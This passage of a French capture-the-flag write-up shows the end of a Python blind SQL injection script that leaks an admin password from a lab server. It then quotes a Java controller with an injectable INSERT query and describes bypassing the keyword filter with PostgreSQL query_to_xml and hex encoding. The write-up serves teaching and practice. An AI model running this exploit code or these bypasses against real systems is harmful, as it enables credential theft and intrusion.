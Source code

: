 ```python
            if letter and letter != ['']:
                return letter[0][0]
            return "?"

        password = ''
        for i in range(max_len):
            password += leak_char(position=len(password)+1)
        return password.strip('?')

c = client(url = 'http://<ip>:8080')
admin_passwd = c.leak_admin_password()
print(admin_passwd)
# WeakPassdcf03cde-bc56-11ee-9acc-0242ac110017!!
```

### Seconde vulnérabilité: Lecture et Ecriture de fichier arbitraire

Une fois connecté, on se retrouve fasse à un formulaire pour poster des messages:  
![Screen4](./img/screen4.png)

Dans le controller **MessageBoardController**, on retrouver le code suivant: 
```java
public String postMessage(@RequestParam String content, HttpSession session, Model model) {
    Integer userId = (Integer) session.getAttribute("userId");
    if (userId != null && userId.intValue() == 1) {
        String var10000 = userId.toString();
        String sql = "INSERT INTO messages (user_id, content) VALUES (" + var10000 + ", '" + content + "')";
        if (!SQLCheck.checkBlackList(content)) {
            model.addAttribute(BindTag.STATUS_VARIABLE_NAME, 500);
            model.addAttribute(JsonEncoder.MESSAGE_ATTR_NAME, "Hacker！");
            return "error";
        } else if (SQLCheck.check(sql)) {
            this.jdbcTemplate.update(sql);
            return "redirect:/";
        } else {
            return "redirect:/";
        }
    }
    return "redirect:/";
}
```

Une seconde injection SQL dans le *INSERT* permet d'ajouter ce que l'on veut dans la base de donnée. 
De la même manière que la première sqli, nous pouvons utiliser les ``$`` pour échapper le filtre.

![Screen5](./img/screen5.png)

Afin de contourner le filtre sur les mots clés, nous pouvons combiner l'utilisation de la fonction ``query_to_xml`` ainsi que les fonctions d'encodage/décodage d'hexadécimal de *postgresql*.
